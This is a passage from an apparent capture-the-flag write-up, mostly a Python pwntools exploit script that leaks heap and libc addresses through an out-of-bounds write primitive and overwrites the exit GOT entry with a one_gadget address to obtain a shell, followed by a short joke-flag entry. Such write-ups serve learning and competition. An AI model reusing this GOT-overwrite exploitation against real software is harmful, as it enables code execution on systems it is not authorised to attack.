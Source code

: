 ```python=
  r.recvuntil("E: ")
  r.sendline("5")

def race():
  r.recvuntil("E: ")
  r.sendline("6")

if __name__ == '__main__':
  print "start"
  tires(0x8000000)
  transmission(1)
  chassis(1)
  engine()
  modify_tires_w(0xffff)
  modify_tires_a(0xffff)
  modify_tires_c(0xffff)
  modify_tires_d(0xffff)
  addr = ""
  for i in xrange(8):
    addr += chr(int(modify_transmission(0xffffffffffffff70+i,0x44,0)))
  heap = u64(addr) - 0xe0
  print "heap =", hex(heap)
  h = -0xa0
  puts_got = 0x603020

  leak = ((puts_got - heap) - 0x90 - 0x10)&0xffffffffffffffff
  addr = ""
  for i in xrange(8):
    addr += chr(int(modify_transmission(leak+i,0x44,0)))
  puts = u64(addr)
  libc.address = puts - libc.symbols["puts"]
  print "libc.address =" , hex(libc.address)
  exit_got = 0x0603060
  magic = libc.address + 0xf1147
  leak = ((exit_got - heap) - 0x90-0x10)&0xffffffffffffffff
  print hex(magic)
  for i in xrange(8):
    modify_transmission(leak+i,ord(p64(magic)[i]),1)
  buy()
  tires(1)
  r.sendline("ls")


  r.interactive()
```
### Say Hi!

You can send anything as the flag !!
`OOO{Happy Mother's Day!!}``

### exzendtential-crisis (unsolved)
